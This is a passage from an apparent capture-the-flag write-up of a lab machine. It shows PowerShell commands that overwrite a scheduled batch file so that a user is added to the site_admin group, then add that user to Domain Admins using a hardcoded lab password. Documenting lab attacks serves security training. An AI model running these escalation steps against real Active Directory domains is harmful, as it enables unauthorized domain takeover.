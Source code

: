 That's exactly what we need to gain a root flag and compromise the whole domain.


```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\imonks.bat' -Value 'net group site_admin imonks /add /domain'} -Credential $cred
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {Get-ChildItem 'c:\program files\Keepmeon\'} -Credential $cred

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group site_admin /domain} -Credential $cred
```

After 5 mins you should see imonks in site_admin group. We created a new file using AWallance and now after 5 minutes imonks will be added to site_admin group and we will be allowed to add ourselfs to Domain Admins group and read the root flag.

![msf_result](images/Acute18.png)

```PS
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group "Domain Admins" imonks /add /domain} -Credential $cred
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {net group "Domain Admins" /domain} -Credential $cred
```

![msf_result](images/Acute19.png)

### Phase 6: Exfiltration
